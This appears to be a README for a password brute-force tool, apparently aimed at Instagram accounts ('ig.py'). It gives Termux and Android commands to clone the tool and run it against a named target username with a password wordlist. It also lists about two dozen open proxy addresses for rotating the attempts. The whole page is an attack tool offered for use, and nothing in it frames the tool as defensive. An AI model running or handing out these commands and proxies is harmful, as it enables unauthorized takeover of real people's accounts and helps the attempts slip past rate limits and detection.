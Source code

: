 Termux
- pkg install python
- git clone https://github.com/djandatua/ibf
- cd ibf
- python ig.py -u djandatua -w pw.txt -p proxy.txt -t 4 -d -v

Android
- apt install python
- git clone https://github.com/djandatua/ibf
- cd ibf
- python ig.py -u djandatua -w pw.txt -p proxy.txt -t 4 -d -v

Note:
- djandatua = username target
- pw.txt = wordlist

List Proxy:
1.55.240.156:53281
117.6.161.118:53281
109.161.48.228:53281
145.255.28.218:53281
103.37.95.110:8080
129.205.210.90:65205
109.121.163.56:53281
103.76.170.26:65103
186.68.85.26:53281
200.109.108.137:3128
168.253.201.19:53281
200.109.119.126:63909
193.188.254.67:53281
78.26.207.173:53281
31.179.240.169:53281
202.131.233.202:53281
62.182.207.26:53281
202.69.38.68:80
43.229.88.98:53281
31.220.183.217:53281
79.135.195.131:53281
217.30.64.26:53281
36.67.142.53:8080
202.21.116.186:53281
93.103.12.195:53281
88.119.49.66:63909
